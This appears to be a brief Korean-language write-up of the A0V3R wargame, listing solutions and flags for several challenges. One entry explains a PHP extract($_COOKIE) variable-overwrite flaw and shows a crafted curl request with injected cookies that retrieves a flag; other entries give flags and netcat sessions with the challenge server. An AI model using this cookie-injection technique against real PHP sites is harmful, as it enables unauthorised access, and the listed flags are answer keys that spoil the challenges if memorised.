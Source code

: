 # A0V3R Wargame
문제 문서화가 잘 되어 있어서 좋았다.

## Hand of plus
`extract($_COOKIE);`에서 취약점이 발생한다.

```
curl -v --cookie "HTTP_ACCEPT_ENCODING=I;HTTP_USER_AGENT=need;HELLO=a;WORLD=flag" http://server2.aover.team/Web/Hand_of_plus/
```

하면

```js
<script>alert('[Suzukaze aoba says]\nWow! I finally my graphics card mined the beatcoin!\nHere\'s a little prize!\nA0V3R{1_g0T-Th3_bE4tC01n!_!}');</script>
```

`A0V3R{1_g0T-Th3_bE4tC01n!_!}`

## 아오바 워게임 디스코드 
`A0V3R{W3lc0me_t0_A0v3r_w4rGaM3_D1sc0rd_53rver_!_!}`

## King bases on 8,8
`A0V3R{Th3_K1nG_C0m35_B4s3_64}`

## No_Random_No_Life
```
$ nc server2.aover.team 12345
5 나와야됨
하하 원하는 숫자가 나오지 않았네~
8
$ nc server2.aover.team 12345
5 나와야됨
A0V3R{BUT_I_LOVE_YOU}
```
